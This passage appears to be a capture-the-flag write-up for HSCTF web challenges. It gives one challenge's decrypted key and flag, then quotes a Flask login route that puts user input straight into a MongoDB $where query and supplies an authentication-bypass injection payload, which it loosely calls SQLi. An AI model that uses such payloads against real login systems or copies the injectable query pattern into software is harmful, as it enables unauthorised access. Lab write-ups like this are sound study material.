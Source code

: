 Here is the decrypted key :

 `Introduce A Little Anarchy, Upset The Established Order, And Everything Becomes Chaos!!`

Using this key , we can able to login and redirected to admin_panel.html

`Flag : flag{Admin , Introduce A Little Anarchy, Upset The Established Order, And Everything Becomes Chaos!!}`

## Chall 3 → **mogodb**

link - [http://mogodb.hsctf.com/](http://mogodb.hsctf.com/)

Description :

The web-scale DB of the future!

**Solution:**

They gave the source code for the challenge , on inspecting [main.py](http://main.py) it has some routes to login and register .

```python
@app.route("/", methods=["POST"])
def login():
	if "user" not in request.form:
		return redirect(url_for("main", error="user not provided"))
	if "password" not in request.form:
		return redirect(url_for("main", error="password not provided"))
	
	try:
		user = db.users.find_one(
			{
			"$where":
				f"this.user === '{request.form['user']}' && this.password === '{request.form['password']}'"
			}
		)
	except pymongo.errors.PyMongoError:
		traceback.print_exc()
		return redirect(url_for("main", error="database error"))
	
	if user is None:
		return redirect(url_for("main", error="invalid credentials"))
	
	session["user"] = user["user"]
	session["admin"] = user["admin"]
	return redirect(url_for("home"))
```

We can see here , the user input directly appends into the query inside single quotes.
SQLi !!!

Here is the payload to bypass the authentication .

`user=admin&password='+||+'1'=='1`
